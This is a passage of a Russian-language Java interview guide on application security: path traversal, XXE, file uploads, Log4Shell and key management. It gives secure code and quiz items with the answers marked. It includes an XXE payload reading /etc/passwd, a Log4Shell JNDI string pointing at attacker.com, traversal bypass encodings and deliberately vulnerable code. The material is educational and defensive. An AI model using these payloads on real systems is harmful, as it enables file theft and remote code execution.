    Path baseDir = Paths.get("/var/uploads").toAbsolutePath().normalize();
    Path requestedFile = baseDir.resolve(filename).normalize();

    // 2. Проверяем, что путь не выходит за пределы базовой директории
    if (!requestedFile.startsWith(baseDir)) {
        throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Invalid file path");
    }

    // 3. Проверяем существование файла
    if (!Files.exists(requestedFile) || !Files.isRegularFile(requestedFile)) {
        throw new ResponseStatusException(HttpStatus.NOT_FOUND);
    }

    // 4. Дополнительно: whitelist допустимых расширений
    String ext = FilenameUtils.getExtension(filename).toLowerCase();
    if (!Set.of("pdf", "png", "jpg", "jpeg").contains(ext)) {
        throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Unsupported file type");
    }

    Resource resource = new FileSystemResource(requestedFile);
    return ResponseEntity.ok()
        .header(HttpHeaders.CONTENT_DISPOSITION,
            "attachment; filename=\"" + requestedFile.getFileName() + "\"")
        .body(resource);
}
```

### Ключевые меры защиты

| Мера | Реализация |
|------|-----------|
| Нормализация пути | `path.normalize()` убирает `../` |
| Проверка `startsWith` | Гарантирует нахождение в разрешённом каталоге |
| Whitelist расширений | Запрет опасных типов файлов |
| Хранение вне `webroot` | Файлы не доступны напрямую через веб |
| UUID-именование | Замена оригинальных имён на UUID при сохранении |

> [!mcq]
> - [x] Path Traversal (CWE-22) предотвращается через path.normalize() + requestedFile.startsWith(baseDir); нормализация убирает "../", startsWith гарантирует нахождение в разрешённом каталоге; дополнительно — whitelist расширений, UUID-именование, хранение вне webroot. | Верная многоуровневая защита. Одной normalize() недостаточно: результат может быть вне baseDir после resolve. startsWith(baseDir) — ключевая проверка. UUID заменяет оригинальные имена на безопасные случайные при сохранении.
> - [ ] Path Traversal защищается простой заменой "../" на "" в имени файла через String.replace(); этого достаточно для большинства сценариев. | Это тривиально обходится: double encoding (%2e%2e%2f), "....//" (после удаления "../" остаётся "../"), unicode (%c0%ae%c0%ae/), null bytes. Правильная защита — normalize() + startsWith() на уровне Path API, а не string manipulation.
> - [ ] Path Traversal — проблема только старых web-серверов (Apache, IIS); современные Spring Boot приложения автоматически защищены от этой атаки. | Spring Boot НЕ защищает автоматически: если контроллер использует пользовательский ввод как имя файла (@PathVariable String filename) и читает его через FileSystemResource, уязвимость воспроизводима. Защита — ответственность разработчика: normalize + startsWith.
> - [ ] Path Traversal защищается через whitelist расширений файлов (.pdf, .png, .jpg); если расширение не запрещённое, файл безопасен для отдачи. | Whitelist расширений — дополнительный слой, но не основной. Path Traversal — про ВЫХОД ИЗ КАТАЛОГА (../../etc/passwd имеет разрешение passwd без расширения или .pdf если суффикс добавить). Основная защита — normalize() + startsWith(baseDir).

## Q42. Что такое XXE и как защититься в Java?

**XXE** (XML External Entity Injection, CWE-611) — атака через XML-парсер, который обрабатывает внешние сущности. Позволяет читать локальные файлы, делать SSRF, в редких случаях — RCE.

### Пример атаки

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><name>&xxe;</name></user>
```

### Уязвимый код

```java
// УЯЗВИМО: SAXParser без отключения внешних сущностей
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();
Document doc = db.parse(inputStream); // читает /etc/passwd!
```

### Безопасная конфигурация парсера

```java
// Безопасный DocumentBuilderFactory
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// Отключаем DOCTYPE полностью (рекомендуется)
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// Или точечно — только внешние сущности
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);

DocumentBuilder db = dbf.newDocumentBuilder();
```

### Jackson XML (Spring Boot)

```java
// Безопасная конфигурация JacksonXmlModule
@Bean
public XmlMapper xmlMapper() {
    XmlMapper mapper = new XmlMapper();
    // Jackson 2.x по умолчанию отключает XXE — убедитесь в версии
    mapper.configure(MapperFeature.DEFAULT_VIEW_INCLUSION, false);
    return mapper;
}
```

**Правило**: всегда явно отключайте `DOCTYPE` в XML-парсерах. В современных Spring Boot приложениях предпочтительнее использовать JSON; если XML обязателен — явно конфигурируйте парсер.

> [!mcq]
> - [x] XXE (CWE-611) предотвращается через отключение DOCTYPE: dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true) + отключение external entities; позволяет чтение локальных файлов, SSRF, в редких случаях — RCE; в JSON/Protobuf атака невозможна. | Верная защита. disallow-doctype-decl полностью блокирует DOCTYPE в XML. Альтернатива — точечное отключение external-general-entities, external-parameter-entities, load-external-dtd. В современных приложениях лучший подход — использовать JSON вместо XML.
> - [ ] XXE предотвращается использованием Jackson для парсинга XML: Jackson 2.x по умолчанию уязвим к XXE, но современные версии (3.x) полностью защищены автоматически. | Jackson 2.x для XML по умолчанию отключает XXE (начиная с определённой версии), но не автоматически для всех конфигураций. Ключевой принцип — всегда явно конфигурировать XML-парсер с disallow-doctype-decl независимо от библиотеки. Jackson 3.x пока не релизнута.
> - [ ] XXE — это атака через JSON-парсер; защита — переход на YAML-парсер, который не поддерживает внешние сущности. | XXE (XML External Entity) касается XML-парсеров, а не JSON. JSON не поддерживает внешние сущности в принципе (они — фича XML DOCTYPE). YAML имеет свои проблемы (YAML deserialization attacks), но не XXE. Путаница категорий.
> - [ ] XXE безопасно оставить включённым, если приложение не принимает пользовательский XML на внешнем API; внутренние XML-файлы (config, XSLT) не представляют риска. | Любой XML-парсер с включённым DOCTYPE уязвим. Atтакующий может подать XML через unexpected vectors: SOAP-запросы, загружаемые документы (DOCX содержит XML), OAuth-metadata, SVG-файлы. Правило: всегда отключать DOCTYPE во всех XML-парсерах приложения.

## Q43. (!) Как безопасно обрабатывать загрузку файлов в Spring Boot?

Загрузка файлов — одна из наиболее опасных операций: возможны path traversal, хранение исполняемых файлов, DoS через огромные файлы, XSS через SVG/HTML.

### Конфигурация лимитов

```yaml
# application.yml
spring:
  servlet:
    multipart:
      max-file-size: 10MB
      max-request-size: 12MB
      enabled: true
```

### Безопасный контроллер загрузки

```java
@RestController
@RequestMapping("/api/upload")
public class FileUploadController {

    private static final Set<String> ALLOWED_CONTENT_TYPES =
        Set.of("image/jpeg", "image/png", "application/pdf");
    private static final long MAX_FILE_SIZE = 10 * 1024 * 1024; // 10 MB
    private final Path uploadDir = Paths.get("/var/uploads");

    @PostMapping
    public ResponseEntity<String> upload(@RequestParam("file") MultipartFile file)
            throws IOException {

        // 1. Проверка типа контента (не доверяем расширению)
        String contentType = file.getContentType();
        if (!ALLOWED_CONTENT_TYPES.contains(contentType)) {
            throw new ResponseStatusException(HttpStatus.BAD_REQUEST,
                "Unsupported file type: " + contentType);
        }

        // 2. Проверка размера (дополнительно к конфигу)
        if (file.getSize() > MAX_FILE_SIZE) {
            throw new ResponseStatusException(HttpStatus.PAYLOAD_TOO_LARGE);
        }

        // 3. Генерируем безопасное имя через UUID
        String ext = switch (contentType) {
            case "image/jpeg" -> ".jpg";
            case "image/png" -> ".png";
            case "application/pdf" -> ".pdf";
            default -> throw new IllegalStateException();
        };
        String safeFilename = UUID.randomUUID() + ext;

        // 4. Сохраняем в безопасный путь (с проверкой)
        Path targetPath = uploadDir.resolve(safeFilename).normalize();
        if (!targetPath.startsWith(uploadDir)) {
            throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
        }

        // 5. Проверка magic bytes (сигнатуры файла)
        validateMagicBytes(file.getBytes(), contentType);

        Files.copy(file.getInputStream(), targetPath,
            StandardCopyOption.REPLACE_EXISTING);

        return ResponseEntity.ok(safeFilename);
    }

    private void validateMagicBytes(byte[] bytes, String contentType) {
        if ("image/jpeg".equals(contentType)) {
            // JPEG начинается с FF D8 FF
            if (bytes.length < 3 || bytes[0] != (byte) 0xFF ||
                bytes[1] != (byte) 0xD8 || bytes[2] != (byte) 0xFF) {
                throw new ResponseStatusException(HttpStatus.BAD_REQUEST,
                    "Invalid JPEG signature");
            }
        }
        // Аналогично для PNG: 89 50 4E 47, PDF: 25 50 44 46
    }
}
```

### Дополнительные меры

- **Антивирусное сканирование**: ClamAV интеграция через `Java API`
- **Изолированная подсеть**: файловое хранилище в отдельном сегменте сети
- **CDN/Object Storage**: `S3`, `MinIO` — файлы не на app-сервере
- **Запрет исполнения**: `noexec` флаг на `/var/uploads`

> [!mcq]
> - [ ] Безопасная загрузка файлов в Spring Boot достигается только настройкой spring.servlet.multipart.max-file-size; остальные проверки (типы, magic bytes) избыточны. | max-file-size защищает от DoS через огромные файлы, но не от path traversal, загрузки исполняемых файлов, XSS через SVG. Необходим полный набор проверок: Content-Type (whitelist), магические байты (сигнатура), UUID-имена, path validation, размер.
> - [x] Безопасная загрузка: whitelist Content-Type (не доверять расширению) + magic bytes (JPEG: FF D8 FF, PNG: 89 50 4E 47), UUID-именование, path validation через startsWith(uploadDir), антивирус (ClamAV), хранение в S3/MinIO, noexec на каталоге, лимиты размера. | Верный multi-layer подход. Content-Type обходится через подмену header — нужна проверка magic bytes по содержимому. UUID-имена предотвращают file collision и information disclosure через original names. ClamAV для защиты от вредоносных файлов.
> - [ ] Безопасно доверять Content-Type заголовку из multipart-запроса: браузер не позволяет клиенту подменять MIME для загружаемого файла. | Атакующий может легко подменить Content-Type через curl/Postman/custom tools. Браузер — лишь один из клиентов. Правильная проверка — magic bytes (сигнатура файла), которая определяется содержимым, а не декларацией клиента. Content-Type — первичная проверка, magic bytes — валидация.
> - [ ] Хранение загруженных файлов на том же app-сервере безопасно, если настроен Nginx reverse proxy с фильтрацией расширений; CDN и Object Storage избыточны. | Хранение на app-сервере создаёт риски: RCE через загрузку .jsp/.war (если Nginx пропустит), DoS через disk space, медленная отдача (app вместо CDN). S3/MinIO изолирует файлы от app-кода, позволяет использовать presigned URLs с TTL, имеет встроенные лимиты и сканирование.

## Q44. Как работает Log4Shell и почему это критично?

**Log4Shell** (CVE-2021-44228) — критическая уязвимость в `Apache Log4j 2.x` (CVSS 10.0), позволявшая достичь RCE через JNDI lookup в любом логируемом значении.

### Механизм атаки

```
1. Злоумышленник отправляет HTTP-запрос с заголовком:
   User-Agent: ${jndi:ldap://attacker.com/exploit}

2. Приложение логирует заголовок: log.info("Request from {}", userAgent)

3. Log4j 2.x обрабатывает ${jndi:...} — делает LDAP lookup

4. LDAP-сервер злоумышленника возвращает ссылку на вредоносный Java-класс

5. JVM загружает и выполняет вредоносный код → RCE
```

### Почему это важно понимать

```java
// УЯЗВИМО (Log4j 2.0-2.14.1)
import org.apache.logging.log4j.LogManager;
Logger log = LogManager.getLogger();
log.info("User-Agent: {}", request.getHeader("User-Agent")); // RCE!

// БЕЗОПАСНО: Log4j 2.15.0+ отключает JNDI lookup по умолчанию
// БЕЗОПАСНО: Logback (SLF4J) не имел этой уязвимости
// БЕЗОПАСНО: Java util logging (JUL) не имел этой уязвимости
```

### Уроки для разработчика

1. **Мониторинг уязвимостей зависимостей** — SBOM + SCA tools (`OWASP Dependency-Check`, `Snyk`)
2. **Быстрая реакция** — процедура экстренного обновления зависимостей
3. **Принцип минимальных привилегий** — даже при RCE ограниченный пользователь снижает ущерб
4. **Egress filtering** — блокировка исходящих соединений с app-сервера снижает риск

```xml
<!-- pom.xml: всегда актуальная версия Log4j -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.24.3</version> <!-- минимум 2.17.1 для fix Log4Shell -->
</dependency>
```

> [!mcq]
> - [x] Log4Shell (CVE-2021-44228, CVSS 10.0) — RCE через JNDI lookup в Apache Log4j 2.x: любое логируемое значение с подстрокой ${jndi:ldap://attacker.com/x} вызывает LDAP lookup и загрузку вредоносного Java-класса; fix — Log4j 2.17.1+ с отключённым JNDI lookup. | Верное описание. Уязвимы Log4j 2.0-2.14.1. Logback (SLF4J) и java.util.logging не имели этой уязвимости. Механизм критичен из-за повсеместного использования Log4j и того, что любое логируемое значение (User-Agent, URL, header) — потенциальный вектор. 2.15.0 был частично уязвим, полный fix — 2.16.0+.
> - [ ] Log4Shell — это уязвимость SLF4J/Logback, исправленная в версии 2.0+; Apache Log4j не был затронут этой CVE, так как использует другую архитектуру. | Обратное: уязвим был Apache Log4j 2.x (не 1.x), а SLF4J/Logback НЕ имели этой проблемы. Log4Shell — это JNDI lookup в Log4j pattern layout, которого нет в Logback. Рекомендация после Log4Shell часто была мигрировать с Log4j на Logback.
> - [ ] Log4Shell эксплуатируется только при удалённой загрузке Log4j через Maven (supply-chain); если библиотека уже скачана локально, атака невозможна. | Log4Shell эксплуатируется в RUNTIME через логирование недоверенного ввода. Установленный локально Log4j 2.0-2.14.1 уязвим так же, как и свежескачанный. Атакующий отправляет HTTP-запрос с ${jndi:ldap://...} в User-Agent, Log4j делает LDAP lookup → RCE. Локальность не защищает.
> - [ ] Log4Shell предотвращается установкой egress firewall, который блокирует LDAP/RMI из app-сервера; апдейт Log4j избыточен при правильной сетевой изоляции. | Egress filtering снижает риск, но не устраняет уязвимость: (1) attacker может использовать file:// или другие handlers, (2) JNDI-lookup сам по себе запускает загрузку класса, (3) обход через internal LDAP. Обновление Log4j до 2.17.1+ — обязательная защита. Network isolation — defense in depth.

## Q45. Как реализовать безопасную работу с Cryptographic Keys в Java?

Неправильное управление ключами — одна из самых частых криптографических ошибок (OWASP A02).

### Антипаттерны

```java
// ПЛОХО: ключ в исходном коде
private static final String SECRET_KEY = "my-secret-key-123";

// ПЛОХО: ключ в environment variable (виден в ps aux, docker inspect)
String key = System.getenv("ENCRYPTION_KEY");

// ПЛОХО: слабый ключ
SecretKey key = new SecretKeySpec("password".getBytes(), "AES"); // 8 байт < 128 бит
```

### Правильная работа с ключами

```java
// 1. Генерация криптографически стойкого ключа
KeyGenerator keyGen = KeyGenerator.getInstance("AES");
keyGen.init(256, new SecureRandom()); // 256-битный ключ
SecretKey secretKey = keyGen.generateKey();

// 2. Хранение в Java KeyStore
KeyStore ks = KeyStore.getInstance("PKCS12");
ks.load(null, null); // создать новый
ks.setKeyEntry("mykey", secretKey, "keyPassword".toCharArray(),
    new Certificate[0]);
// Сохранение в файл (защищённый паролем)
try (var fos = new FileOutputStream("keystore.p12")) {
    ks.store(fos, "storePassword".toCharArray());
}

// 3. Загрузка из KeyStore
KeyStore ks = KeyStore.getInstance("PKCS12");
try (var fis = new FileInputStream("keystore.p12")) {
    ks.load(fis, "storePassword".toCharArray());
}
SecretKey key = (SecretKey) ks.getKey("mykey", "keyPassword".toCharArray());
```

### HashiCorp Vault интеграция в Spring Boot

```yaml
# application.yml
spring:
  cloud:
    vault:
      host: vault.example.com
      port: 8200
      scheme: https
      authentication: KUBERNETES # или TOKEN, AWS_EC2
      kubernetes:
        role: my-app
      kv:
        enabled: true
        backend: secret
        default-context: my-app
```

```java
// Использование секретов из Vault
@Value("${encryption.key}")
private String encryptionKey; // автоматически подтягивается из Vault

// Или через VaultTemplate для динамических секретов
@Autowired
private VaultTemplate vaultTemplate;

public String getDbPassword() {
    VaultResponse response = vaultTemplate.read("database/creds/my-role");
    return (String) response.getData().get("password");
}
```

### Принципы управления ключами

| Принцип | Реализация |
|---------|-----------|
| Separation of duties | Ключи отдельно от приложения |
| Key rotation | Регулярная ротация (Vault TTL, k8s Secret rotation) |
| Least privilege | Каждый сервис — свой ключ с минимальными правами |
| Audit trail | Логирование доступа к ключам |
| HSM для prod | Hardware Security Module для критичных ключей |

> [!mcq]
> - [ ] Cryptographic keys безопасно хранить как private static final String SECRET_KEY = "my-key-123"; JVM защищает приватные статические поля от доступа через reflection. | Ключ в исходном коде — критическая ошибка. Любой с доступом к репозиторию/JAR-файлу видит секрет (javap, strings, декомпилятор). Reflection обходится через setAccessible(true). Правильно — ключи в Vault/KMS/KeyStore, не в коде.
> - [x] Правильная работа с ключами: генерация через KeyGenerator.init(256, SecureRandom) — 256-битный AES; хранение в Java KeyStore (PKCS12) с password-защитой или в HashiCorp Vault через Spring Cloud Vault; rotation через TTL Vault, separation of duties (ключ отдельно от app), audit trail. | Верная стратегия. KeyStore PKCS12 — стандарт для локального хранения; Vault — enterprise-уровень с dynamic secrets и rotation. HSM (Hardware Security Module) для production-grade protection. Никогда не использовать слабые ключи (например, SecretKeySpec от "password".getBytes() — всего 8 байт).
> - [ ] Environment variables — оптимальный способ хранения cryptographic keys: они изолированы от файловой системы и передаются только между app и ОС. | Env vars видны в /proc/<pid>/environ, docker inspect, kubectl describe, ps auxe. Попадают в core dumps, logs (при ошибках). Нет ротации, нет аудита. Env vars — базовый уровень, приемлемый для dev. Production требует Vault/KMS/KeyStore с управляемым lifecycle.
> - [ ] Ключ AES-128 (16 байт) достаточен для ВСЕХ production-сценариев; использование AES-256 избыточно и только замедляет шифрование. | AES-128 считается достаточным для большинства задач, но AES-256 рекомендуется для долгоживущих данных (post-quantum resistance) и compliance (NIST SP 800-57). Разница производительности минимальна на современных CPU (AES-NI). Выбор — по compliance/threat model, не «AES-128 достаточно для всех».

---

## See also

- [Безопасность приложений](application-security-interview.md) — общие принципы AppSec, Defense in Depth
- [Паттерны аутентификации и авторизации](authentication-authorization-patterns-interview.md) — RBAC, ABAC, Zero Trust
- [OAuth 2.0 и OpenID Connect](oauth2-interview.md) — авторизационные flows, JWT, токены
- [Spring Security](../frameworks/spring/spring-security-interview.md) — реализация безопасности в Spring
- [Микросервисы](../architecture/microservices-interview.md) — безопасность в распределённых системах, service mesh
- [Распределённые системы](../architecture/distributed-systems-interview.md) — безопасность на уровне инфраструктуры
- [Kubernetes](../devops/kubernetes-interview.md) — Pod Security, Network Policy, Secrets
- [HTTP и REST](../api/http-rest-interview.md) — security headers, CORS, TLS

- [Application Security](application-security-interview.md)
- [Authentication and Authorization Patterns](authentication-authorization-patterns-interview.md)
- [JWT](jwt-interview.md)
- [mTLS (Mutual TLS)](mtls-interview.md)
- [OAuth2](oauth2-interview.md)
- [Secrets Management](secrets-management-interview.md)
